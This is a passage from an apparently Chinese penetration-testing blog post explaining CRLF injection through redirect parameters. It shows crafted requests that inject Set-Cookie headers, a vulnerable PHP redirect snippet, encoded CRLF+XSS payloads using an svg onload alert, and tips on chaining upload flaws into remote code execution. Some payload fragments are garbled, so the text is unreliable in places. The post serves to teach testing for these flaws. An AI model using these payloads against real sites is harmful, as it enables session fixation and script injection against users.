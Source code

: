 </span>xxxxxxxxxx...</code></pre><p>抓包，在请求行的url参数中加入特殊构造的CRLF字符 如下</p><pre><code class="hljs dts">GET api<span class="hljs-meta-keyword">/xxxx/</span>?url=http:<span class="hljs-comment">//www.xxc.com%0d%0aSet-Cookie:vuale=crlf HTTP/1.1</span><span class="hljs-symbol">Host:</span>qclover.cnUser-Agent:xxxxx...<span class="hljs-symbol">Referer:</span>http:qclover.cn<span class="hljs-symbol">Cookie:</span>xxxxxxxxxx...</code></pre><p>输出</p><pre><code class="hljs sql">HTTP/1.1 302 Found...Location:http://www.xxc.com<span class="hljs-keyword">Set</span>-Cookie:vuale=crlf<span class="hljs-keyword">Content</span>-<span class="hljs-keyword">Length</span>:<span class="hljs-number">0</span><span class="hljs-keyword">Content</span>-<span class="hljs-keyword">Type</span>:<span class="hljs-built_in">text</span>/html</code></pre><p>这样一个CRLF对应的服务端的代码可能是这样子的</p><pre><code class="hljs php"><span class="hljs-keyword">if</span>(<span class="hljs-keyword">isset</span>($_GET[<span class="hljs-string">"url"</span>])&amp;&amp;($_cookie[<span class="hljs-string">"security_level"</span>]!=<span class="hljs-string">"1"</span>&amp;&amp;$_COOKIE[<span class="hljs-string">"security_level"</span>]!=<span class="hljs-string">"2"</span>)){    header(<span class="hljs-string">"Location:"</span>.GET[<span class="hljs-string">"url"</span>]);<span class="hljs-keyword">exit</span>;}</code></pre><p>代码的意思是当条件满足时，将请求包中的url参数值拼接到Location字符串中，并设置成响应头发送给客户端。</p><p>假设存在CRLF漏洞，响应包此时应该 会出现如下情况</p><pre><code class="hljs perl">HTTP/<span class="hljs-number">1.1</span><span class="hljs-number">302</span> Found...Location:http:<span class="hljs-regexp">//www</span>.xxc.com%0d%0aSet-Cookie:vuale=crlfContent-Length:<span class="hljs-number">0</span>Content-Type:text/html</code></pre><p>最终构造的Set-Cookie字符 会出现在HTTP头部的Cookie中且vuale=crlf会被设置成Cookie携带在Cookie中。 最终的数据包会如下：</p><pre><code class="hljs dts">GET api<span class="hljs-meta-keyword">/xxxx/</span>?url=http:<span class="hljs-comment">//www.xxc.com</span><span class="hljs-symbol">Host:</span>qclover.cnUser-Agent:xxxxx...<span class="hljs-symbol">Referer:</span>http:qclover.cn<span class="hljs-symbol">Cookie:</span>xxxxxxxxxx;vuale=crlf...</code></pre><p>了解CRLF的服务端的代码原理后，可以知道本质还是在代码中的Location,这与url（302）跳转类似，因此在存在url跳转的情况下还可以尝试Fuzz,转为url跳转-&gt;CRLF-&gt;CRLF+XSS的利用</p><p>CRLF+XSS,payload可以更改为</p><pre><code class="hljs perl">GET /xxxx/redirect=http:<span class="hljs-regexp">//www</span>.xxc.com%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE...</code></pre><p>会变成<code>-&gt;</code></p><pre><code class="hljs dts">GET<span class="hljs-meta-keyword">/xxxx/</span>redirect（CRLF）<span class="hljs-symbol">Host:</span>qclover.cncontent-type:text/html（CRLF）<span class="hljs-symbol">location:</span><span class="hljs-params">&lt;svg/onload=alert(innerHTML)&gt;</span></code></pre><p>若同时存在url跳转，payload可以变换一下,CRLF+XSS</p><pre><code class="hljs perl">GET api/xxxx/?url=http:<span class="hljs-regexp">//www</span>.xxc.com%0d%0aSet-Cookie:%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE HTTP/<span class="hljs-number">1.1</span>Host:qclover.cnUser-Agent:xxxxx...Referer:http:qclover.cnCookie:xxxxxxxxxx...</code></pre><p>那么<code>&lt;svg/onload=alert</code>1<code>&gt;</code>将会出现在cookie中。</p><h2><span id="fuzz"><span style="color: rgb(51, 51, 51);">六、黑盒测试中的漏洞利用链FUZZ</span></span></h2><p>最后简单说下黑盒测试中的漏洞利用链的Fuzz思路</p><p>在白盒代码审计中存在者多种的漏洞利用POP链如TP5-6的POP链曾被大多数人所发掘分析。而在黑盒测试审计中其实也存在可以利用漏洞链的思想。如对于功能及其组件的测试、就单纯的代码审计的情况下比较难发现其漏洞，一个压缩包上传代码中严格限制了其文件类型但会回显其上传的路径、而 在另外一处备份恢复时首先会默认对其文件进行解压，若抓包中解压的路径可控，将两者组合利用就可进行木马上传和RCE。在fuzz中找各功能组件之间的关联性。</p><p>在漏洞挖掘中，Fuzz中每一个漏洞都可能存在多样的利用方式，需要我们对每一个参数和漏洞点保持着善于发现和挖掘的思想或许会存在意外的收获，不断的渐渐前行~</p>



